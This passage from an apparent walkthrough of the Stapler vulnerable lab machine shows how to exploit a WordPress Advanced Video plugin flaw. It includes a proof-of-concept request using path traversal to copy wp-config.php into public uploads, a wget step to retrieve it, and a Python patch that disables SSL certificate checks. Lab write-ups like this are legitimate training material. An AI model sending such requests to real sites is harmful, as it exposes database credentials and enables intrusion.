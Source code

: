 ![](/screenshots/stapler/advancedVideoPluginVersion.jpg)
* Create `39646.py` which contains the exact contents from the Exploit DB page. The only modification which we need is the line where we assign our url string to variable `url` - change it accordingly. Mine is: `url = "https://10.0.2.18:12380/blogblog"`.
* Next, run it with `python 39646.py`:
![](/screenshots/stapler/pluginExploitFailed.jpg)
* The error is related to SSL and its certificate. Whatever we did above had to cater to the HTTPS consideration, and so would this step.
* Googling about this error leads us to [this StackOverflow post](https://stackoverflow.com/questions/27835619/urllib-and-ssl-certificate-verify-failed-error) which tells us how we can resolve this error.
* Add `import ssl` then `ssl._create_default_https_context = ssl._create_unverified_context` to `39646.py`, at the end of the 3 import statements. Run `39646.py`, which should display no output.
* Note: These 2 additional lines are known as `monkey patches` according to the StackOverflow post - interesting to learn that this term refers to ways to extend/modify software for local purposes.
* **Alternatively**, instead of all of the hassle above, just refer to the line of comment in the code which says `POC`, and modify the URL accordingly before running it in the browser. Mine would be `https://10.0.2.18:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php`. If you see some one-liner input like this, it is done:
![](/screenshots/stapler/pluginExploitShortMethod.jpg)
* Fun-fact: I ran the same page several times, and watched the `p=` value increase by 20 each time.
* Heading to `https://10.0.2.18:12380/blogblog/wp-content/uploads/`, we see that the originally empty directory has got `.jpeg` files inside now.
* Run `wget https://10.0.2.18:12380/blogblog/wp-content/uploads/1325939172.jpeg --no-check-certificate` to download the image:
![](/screenshots/stapler/wgetImage.jpg)
